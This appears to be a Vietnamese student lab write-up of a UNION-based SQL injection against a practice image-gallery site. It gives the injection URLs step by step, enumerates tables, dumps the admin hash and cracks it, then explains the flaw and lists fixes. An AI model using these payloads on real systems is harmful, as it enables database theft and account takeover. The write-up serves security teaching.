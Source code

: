 ### Người thực hiện: Trần Ngọc Nam
### Thời gian thực hiện: 30/03-02/04/2022

# Mục lục:
1. [Cách làm](#1)
2. [Lỗi sai](#2)
3. [Cách khắc phục](#3)

## Cách làm:<a name="1"></a>
- Check xem web có bị lỗi sql injection không? SQL có 2 dạng để check: dựa trên số(?id=1) hoặc dạng chuỗi(string). Nhưng dựa theo cấu trúc web nên ta chọn check theo id.
  - Đầu tiên, ta thử chèn dấu ' vào http://192.168.216.129/cat.php?id=1
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=1'

    Kết quả trả về:
    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
  ```
  - Điều này chưa kết luận được web có lỗi sql injection không. Nên ta tiếp thực thử truyền phép tính vào url
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=2-1
  ```
  - Kết quả trả về là trang http://192.168.216.129/cat.php?id=1. Chứng tỏ web có thể lỗi sql injection.
  - Ta thực hiện thêm 1 lần truyền phép tính vào thanh url
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=3-2
  ```
  - Kết quả trả về vẫn là trang http://192.168.216.129/cat.php?id=1. Chứng tỏ web đã lỗi sql injection.

- Tiếp theo, ta check số cột của database bằng toán tử union. Ta check số lượng từ 1 và tăng dần
  ```php
    http://192.168.216.129/cat.php?id=1 union select 1
    http://192.168.216.129/cat.php?id=1 union select 1,2
    http://192.168.216.129/cat.php?id=1 union select 1,2,3
    http://192.168.216.129/cat.php?id=1 union select 1,2,3,4
  ```
- Ta nhận thấy số cột là 4 khi thử đến lần thứ 4 trang web trả về tất cả iteam trong trang web
- Ta nhận thấy số cột là 4 khi thử đến lần thứ 4 trang web trả về tất cả iteam trong trang web
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,@@version,3,4

  Kết quả trả về: 5.1.63-0+squeeze1
  ```
- Tiếp theo, ta check tên các table có trong database
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,table_name,3,4 from information_schema.tables
  ``` 
- Kết quả trả về gồm rất nhiều table như sau:

    | No. | Table                                          |
    | --- | ---------------------------------------------- |
    | 1   | picture: ruby                                  |
    | 2   | picture: cthulhu                               |
    | 3   | picture: character_sets                        |
    | 4   | picture: collations                            |
    | 5   | picture: collation_character_set_applicability |
    | 6   | picture: columns                               |
    | 7   | picture: column_privileges                     |
    | 8   | picture: engines                               |
    | 9   | picture: events                                |
    | 10  | picture: files                                 |
    | 11  | picture: global_status                         |
    | 12  | picture: global_variables                      |
    | 13  | picture: key_column_usage                      |
    | 14  | picture: partitions                            |
    | 15  | picture: plugins                               |
    | 16  | picture: processlist                           |
    | 17  | picture: profiling                             |
    | 18  | picture: referential_constraints               |
    | 19  | picture: routines                              |
    | 20  | picture: schemata                              |
    | 21  | picture: schema_privileges                     |
    | 22  | picture: session_status                        |
    | 23  | picture: session_variables                     |
    | 24  | picture: statistics                            |
    | 25  | picture: tables                                |
    | 26  | picture: table_constraints                     |
    | 27  | picture: table_privileges                      |
    | 28  | picture: triggers                              |
    | 29  | picture: user_privileges                       |
    | 30  | picture: views                                 |
    | 31  | picture: categories                            |
    | 32  | picture: pictures                              |
    | 33  | picture: users                                 |

- Nhưng ở đây, ta sẽ quan tâm tới table users. Đây sẽ là nơi chứa thông tin của các user trong database
- Đầu tiên, ta cần biết số lượng cột và tên từng cột trong bảng users
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,column_name,3,4 from information_schema.columns where table_name='users'
  ```
- Kết quả trả về gồm 3 cột với tên lần lượt là: id, login, password
- Từ đây, ta có thể dễ dàng show ra thông tin toàn bộ users
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,concat(id,0x3a,login,0x3a,password),3,4 from users

  Kết quả trả về: 1:admin:8efe310f9ab3efeae8d410a8e0166eb2
  ```
- Đây là thông tin về admin, giờ chúng ta thử đăng nhập. Nhưng không thành công, có thể suy đoán mật khẩu đã được mã hóa.
- Ta sẽ thử giải nén mật khẩu. Và sau khi thử các cách giải mã: DES, 3DES, AES, SHA, MD5,.. thì password nhận được là P4ssw0rd.
- Đến đây ta đã có thông tin username: admin, password: P4ssw0rd. Và bây giờ ta đã có thể đăng nhập thành công và tùy ý thêm và xóa các bức tranh.

## Lỗi sai:<a name="2"></a>
- Các liên kết trên thanh menu có dang ?id= nên dễ xảy ra lỗi SQL Injection
  ```php
    Các liên kết như:
    test: <a href="cat.php?id=1">test | </a>
    ruxcon: <a href="cat.php?id=2">test | </a>
    20120: <a href="cat.php?id=3">test | </a>
  ```
- Lúc gửi giữ liệu sẽ có dạng:
  ```php
    SELECT title, description, body FROM cat WHERE ID = 1
  ```
- Kẻ tấn công sẽ chèn đoạn query vào url để lấy được thông tin mong muốn
- Ví dụ:
  ```php
    http://192.168.216.129/cat.php?id=1 union select 1,2,3,4
    -> SELECT * FROM cat WHERE id=1 UNION SELECT 1,2,3,4 LIMIT 1

    http://192.168.216.129/cat.php?id=1 union select 1,column_name,3,4 from information_schema.columns where table_name='users'
    -> SELECT * FROM cat WHERE id=1 UNION SELECT 1, column_name,3,4 from information_schema.tables where table_name='users' LIMIT 1
  ```
- Tài liệu tham khảo: https://sechow.com/bricks/docs/content-page-1.html

## Cách khắc phục:<a name="3"></a>
- Hầu hết các trường hợp sql injection có thể được ngăn chặn bằng cách sử dụng các truy vấn tham số (còn được gọi là tuyên bố đã chuẩn bị) thay vì ghép chuỗi trong truy vấn.
- Có thể thử mã hóa dữ liệu bởi vì Bất kể ngôn ngữ bạn đang sử dụng là gì, các phương pháp mã hóa bạn sử dụng phải đồng bộ với các nguyên tắc mã hóa Bảo mật của OWASP. Hầu hết các nền tảng phát triển web đều cung cấp các cơ chế để tránh tất cả SQL Injjection.
- Luôn sử dụng các chức năng thoát ký tự cho đầu vào do người dùng cung cấp được cung cấp bởi mỗi hệ thống quản lý cơ sở dữ liệu (DBMS).
  Ví dụ: sử dụng mysql_real_escape_string() trong PHP để tránh các ký tự có thể dẫn đến lệnh SQL ngoài ý muốn
  ```php
    $db_connection = mysqli_connect("localhost", "user", "password", "db");
		$username = mysqli_real_escape_string($db_connection, $_POST['username']);
		$password = mysqli_real_escape_string($db_connection, $_POST['password']);
		$query = "SELECT * FROM users WHERE username = '" . $username. "' AND password = '" . $password . "'"; 
  ```
- Sử dụng câu truy vấn tham số
  ```php
    String id = request.getParameter("id");
    String query = "SELECT * FROM cat WHERE id = ? ";
    PreparedStatement statement = connection.prepareStatement(query);
    statement.setString(1, id);
    ResultSet resultSet = statement.executeQuery();
  ```
- Tài liệu tham khảo: https://portswigger.net/web-security/sql-injection#how-to-prevent-sql-injection